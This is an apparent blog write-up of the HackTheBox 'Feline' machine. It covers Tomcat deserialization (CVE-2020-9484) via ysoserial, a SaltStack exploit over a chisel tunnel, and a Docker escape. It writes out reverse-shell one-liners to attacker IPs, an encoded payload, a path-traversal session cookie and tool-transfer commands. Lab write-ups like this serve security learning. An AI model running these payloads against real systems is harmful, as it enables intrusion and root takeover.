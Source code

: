 ```yaml
---
title: HackTheBox Feline
author: Marius Kimmina
date: 2021-03-08 14:10:00 +0800
categories: [CTF, HackTheBox]
tags: [docker, linux, tomcat]
published: true
---
```


## 0x0 Introduction
The first **hard** box that I have ever pwned, so lets dive right into it. This box involved a java deserialization attack to first get an inital foothold, once we are on it we use a known exploit in `saltstack` to become root of docker container, now you might wonder: Why would we want to become root of a docker-container? Well this docker container also had a miss configuration issue which then allowed us to mount files from the host system, such as the root.txt, into the container.
![image](/assets/images/feline/feline-pwn.png "Feline has been pwned")


## 0x1 How not to handle error messages

As always I start with an nmap scan, 

```
$ nmap -sC -sV -oN recon/nmap-default 10.10.10.205
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-01 08:24 GMT
Nmap scan report for feline.htb (10.10.10.205)
Host is up (0.39s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.27
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: VirusBucket
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


if we look at the website, running on port 8080, we see that this is some kind of malware analysis engine, called Virusbucket, and that we can upload files. 

![image](/assets/images/feline/feline-virusbucket.png "Feline Virusbucket")

if we capture the HTTP request for the file-upload, you can use a proxy like burp or ZAP for this, then you will see this:

![image](/assets/images/feline/feline-file-upload.png "Feline Upload")

But if we replace the filename here with some nonsense, then we can error from the application in which it leaks the location that our files are being upload to:

![image](/assets/images/feline/feline-upload-error.png "Feline Upload Error")

Which is some really useful information because if we can find a way to interact with the files that we have uploaded, through a tomcat vulnerability for example, then we need to know where to look for our uploaded files.

## 0x2 Cuz there is always a tomcat vulnerability

Since it's tomcat and we now that it's version 9.0.27 I, like most people solving this box probably, looked for a vulnerability in that found this blogpost: https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/ and the CVE in question is: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9484.  
If you are solving this box after it has retired and are following along with this post of mine I highly suggest that you go and read the "redtimmy" post, it was well written and to the point. 
The whole point of this exploit is that, if we can get a serialized object on the disk, which we can by simply uploading it, we can use a path traversal vulnerability in the Session-Cookie to get tomcat to deserialize it, which in turn can give us code execution on the box.  
Since we know that our upload files go to `/opt/samples/uploads/` we can set our `JSESSIONID` to `../../../../../../../opt/samples/uploads/the-file-that-we-have-uploaded`  
To create such a serailized object we use `ysoserial` which you can find here: https://github.com/frohoff/ysoserial  
The error message of the File upload had also told us that this uses apache.org.commons which is a libarry for all sorts of common deserializations. Knowing that we can use `ysoserial` with the `CommonCollections4`.  

First we create our reverse shell command and encode it with base64 to avoid spacing errors

```
echo 'bash -i >& /dev/tcp/tun0/4141 0>&1' | base64
```
Then we use ysoserial to prepare our exploit, notice that we use the {} bash syntax to, again, avoid spaces.
```
java -jar ysoserial.jar CommonsCollections4 "bash -c {echo,ZWNobyAnYmFzaCAtaSA+JiAvZGV2L3RjcC90dW4wLzQxNDEgMD4mMSc=}|{base64,-d}|{bash,-i}" > exploit.session
```

Upload the file either through the website or by using `curl`

```
curl 'http://10.10.10.205:8080/upload.jsp' -F "image=@exploit.session"
```

and use netcat to listen for incomming connections:

```
nc -lvnp 9009
listening on [any] 9009 ...
```

Now send another request with the malformed cookie to execute the payload

```
curl 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../../opt/samples/uploads/exploit"
```

## 0x3 Why so salty?

Now that we are on the host we discover that port 4005 and 4006 are open, these ports are, by default, used by saltstack. Saltstack is an infrastructure management software but for this box we don't need to know much about how it acctually works. What we do need to know though is that there was a very recent vulnerabily in it. If you wanna read more details about the vulnerability you can go here: https://www.helpnetsecurity.com/2020/05/04/saltstack-salt-vulnerabilities/  
Otherwise we are going straight to the exploit which can be found here: https://www.exploit-db.com/exploits/48421  
If we are gonna try to run this on the victim maschine we are going to run into an issue, which is that the `salt` python module is not installed on the box. 

```
$ python3 exploit.py 
Traceback (most recent call last):
  File "exploit.py", line 16, in <module>
    import salt
ModuleNotFoundError: No module named 'salt'
```

## 0x4 Port forwarding to the rescue

So since the saltstack ports are on only listening on localhost, we cannot use the exploit from our box directly but since we are already on the box we can use a programm called `chisel` to do port forwarding and thus make the saltstack accessible from our host maschine.  
First, to get chisel on the victim maschine, go download it from https://github.com/jpillora/chisel/releases and then you can simply use the python http server to transfer it to the box.

```
$ python3 -m http.server
```

Use wget to download chisel on the victim maschine.

```
$ wget http://10.10.16.11:8000/chisel
```

Now we forward some ports as follows:

```
./chisel client 10.10.16.11:5566 R:4506:127.0.0.1:4506
```

and 

```
./chisel server -p 5566 --reverse
```

And now we can use the exploit on our own maschine against localhost, this will then be forwarded to the victim. We want to get a new shell here so lets first setup netcat again

```
nc -lvnp 5577
```

With that running we can finally use the exploit and get a new shell on the box.

```
python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.14.43/5577 0>&1"'
```

If everything has worked correctly here, we are `root`, yay! But it's still to early to celebrate, because we are root on a docker container, not the box itself. So we went from being a normal user on the box, to being root in docker container. That would under normal circumstances be considered a downgrade since being root of the container does not give us any more access but let's see...

## 0x5 The great docker escape

The first thing I noticed inside this container was a file called "todo.txt" inside the home directroy of the root user 

```
cat todo.txt
- Add saltstack support to auto-spawn sandbox dockers through events.
- Integrate changes to tomcat and make the service open to public.
```

On top of that I also noticed that the history file was not empty, it contained a lot of commands but one seemed particullarly interessting to me:

```
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

If I go ahead and run this one myself we get the following output:

```
root@2d24bf61767c:~# curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
<t /var/run/docker.sock http://localhost/images/json
[{"Containers":-1,"Created":1590787186,"Id":"sha256:a24bb4013296f61e89ba57005a7b3e52274d8edd3ae2077d04395f806b63d83e","Labels":null,"ParentId":"","RepoDigests":null,"RepoTags":["sandbox:latest"],"SharedSize":-1,"Size":5574537,"VirtualSize":5574537},{"Containers":-1,"Created":1588544489,"Id":"sha256:188a2704d8b01d4591334d8b5ed86892f56bfe1c68bee828edc2998fb015b9e9","Labels":null,"ParentId":"","RepoDigests":["<none>@<none>"],"RepoTags":["<none>:<none>"],"SharedSize":-1,"Size":1056679100,"VirtualSize":1056679100}]
```

From that we know that the container we are in is called `sandbox`. We are now able to copy the docker binary from the victim maschine into the docker-container. With our tomcat shell on the box we execute the following commands:

```
cd tmp
cp /usr/bin/docker .
python3 -m http.server 9009
```

Next, in the docker-container we download the docker-binary and make it executeable:

```
wget http://172.17.0.1:9001/docker
chmod +x docker
```

With this we can copy contents from the victim maschine into the docker-container using the following command (inside docker):

```
./docker run -v /:root/:root -it sandbox
```

And we are done, we are now able to access the root flag with a simple `cat root/root.txt`

## 0x6 Closing Words

This was the first `hard` box that I have ever owned and I learned a lot from it, the privilege escalation from normal user to root of docker container was a nice twist that we have never before seen on any other box (as far as I know) and I learned a lot from that. My respect to the creators of this awesome challenge.





